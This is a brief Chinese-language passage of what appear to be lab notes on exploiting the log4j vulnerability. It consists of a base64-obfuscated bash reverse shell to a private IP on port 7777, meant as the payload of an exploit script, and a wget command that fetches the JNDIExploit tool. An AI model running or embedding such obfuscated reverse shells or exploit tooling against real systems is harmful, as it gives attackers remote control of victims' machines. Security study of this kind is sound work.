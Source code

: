 
### 二. 漏洞利用

#### 1. 自动化exploit脚本编写

![1742750573594](image/record/1742750573594.png)
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzEvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}
```

#### 2. 评估log4j漏洞效果

##### 下载利用工具
```bash
wget https://github.com/Mr-xn/JNDIExploit/release/download/v1.2/JNDIExploit.v1.2.zip
```
![1741599510999](image/record/1741599510999.png)

